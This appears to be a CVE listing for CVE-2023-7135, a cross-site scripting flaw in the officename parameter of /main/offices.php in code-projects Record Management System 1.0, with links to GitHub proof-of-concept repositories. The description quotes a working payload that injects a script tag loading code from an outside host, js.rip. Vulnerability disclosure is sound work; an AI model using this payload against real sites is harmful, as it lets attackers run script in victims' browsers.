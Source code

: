 ### [CVE-2023-7135](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7135)
![](https://img.shields.io/static/v1?label=Product&message=Record%20Management%20System&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%201.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%20Cross%20Site%20Scripting&color=brighgreen)

### Description

A vulnerability classified as problematic has been found in code-projects Record Management System 1.0. Affected is an unknown function of the file /main/offices.php of the component Offices Handler. The manipulation of the argument officename with the input "><script src="https://js.rip/b23tmbxf49"></script> leads to cross site scripting. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-249138 is the identifier assigned to this vulnerability.

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/h4md153v63n/CVEs
- https://github.com/h4md153v63n/h4md153v63n


